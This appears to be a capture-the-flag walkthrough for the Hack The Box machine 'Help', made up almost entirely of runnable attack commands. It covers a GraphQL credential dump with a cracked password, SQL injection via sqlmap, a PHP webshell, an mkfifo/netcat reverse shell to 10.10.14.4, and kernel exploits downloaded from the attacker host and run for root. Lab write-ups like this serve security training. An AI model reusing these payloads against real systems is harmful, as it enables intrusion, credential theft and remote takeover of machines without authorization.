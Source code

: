 Here is a **Markdown-formatted command walkthrough** for **HTB: Help**, cleanly organized by stage, with context and clarity throughout:

---

# 🆘 HTB: Help – Command Walkthrough

## 📦 Box Info
- **IP**: `10.10.10.121`
- **OS**: Ubuntu 16.04 (Xenial)
- **Difficulty**: Easy
- **Initial Access**: GraphQL → HelpDeskZ Authenticated SQLi / Unauth File Upload
- **Privilege Escalation**: Kernel Exploit (CVE-2017-16995, etc.)

---

## 🔍 Recon

### 🔎 Full TCP Scan
```bash
nmap -sT -p- --min-rate 10000 -oA nmap/alltcp 10.10.10.121
```

### 🔍 Service Detection
```bash
nmap -sC -sV -p 22,80,3000 -oA nmap/scripts 10.10.10.121
```

---

## 🌐 Web Recon – Port 3000 (GraphQL)

### 📊 Discover Schema
```bash
curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" \
-d '{ "query": "{ __schema { queryType { name, fields { name, description } } } }" }' | jq
```

### 📚 View User Type Fields
```bash
curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" \
-d '{ "query": "{ __type(name: \"User\") { name fields { name } } }" }' | jq
```

### 🔐 Dump User Credentials
```bash
curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" \
-d '{ "query": "{ user { username password } }" }' | jq
```

- **Username**: `helpme@helpme.com`  
- **Password (MD5)**: `5d3c93182bb20f07b994a7f617e99cff`  
- **Cracked**: `godhelpmeplz`

---

## 🌐 Web Recon – Port 80 [(Apache)](HTTP)

### 🧭 Directory Brute Force
```bash
gobuster -u http://10.10.10.121 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 50
```

### 🔍 Discover `/support` (HelpDeskZ)
Login with:
- **Email**: `helpme@helpme.com`
- **Password**: `godhelpmeplz`

---

## 🐚 Shell Access – Method 1: SQLi via Ticket Attachment

### 🔎 Identify SQLi
Modify param in:
```
http://10.10.10.121/support/?v=view_tickets&action=ticket&param[]=4&param[]=attachment&param[]=1&param[]=6
```

Try:
- `...6 AND 1=1-- -` → ✅
- `...6 AND 1=2-- -` → ❌

### ⚙️ Dump with sqlmap
1. Save request in Burp (e.g., `ticket_attachment.request`)
2. Run:
```bash
sqlmap -r ticket_attachment.request --level 5 --risk 3 -p param[] --dump
```

### 🔐 Extracted Creds
- **Username**: `admin`
- **Password**: `Welcome1`

### 🔑 [SSH](SSH) as help
```bash
ssh help@10.10.10.121
# Password: Welcome1
```

---

## 🐚 Shell Access – Method 2: File Upload Exploit

### ⚙️ Upload Webshell
Use:
```php
<?php system($_REQUEST['cmd']); ?>
```

### 🔍 Brute Upload Location (based on time + md5)
```python
# Save as exploit.py
./exploit.py http://10.10.10.121/support/uploads/tickets/ cmd.php
```

### 🧪 Webshell Test
```bash
curl http://10.10.10.121/support/uploads/tickets/<shell>.php?cmd=id
```

### 🎯 Reverse Shell Payload
```bash
curl 'http://10.10.10.121/support/uploads/tickets/<shell>.php?cmd=rm+/tmp/f;mkfifo+/tmp/f;cat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.4+443+>/tmp/f'
nc -lnvp 443
```

---

## 🧬 Shell Upgrade
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo
fg
reset
# Enter: screen
export TERM=screen
```

---

## ⬆️ Privilege Escalation (help → root)

### 📌 Kernel Version
```bash
uname -a
# 4.4.0-116-generic
```

### 🧠 Use Exploits (CVE-2017-16995)
- Move to `/dev/shm`
- Start web server:
```bash
python3 -m http.server 80
```

- On target:
```bash
wget http://10.10.14.4/44298.c
gcc -o a 44298.c
./a
```

Or:

```bash
wget http://10.10.14.4/45010.c
gcc -o a 45010.c
./a
```

Or:

```bash
wget http://10.10.14.4/exploit.sh
chmod +x exploit.sh
./exploit.sh
```

---

## 🏁 Final Flags

### 🧑‍💻 User Flag
```bash
cat /home/help/user.txt
```

### 👑 Root Flag
```bash
cat /root/root.txt
```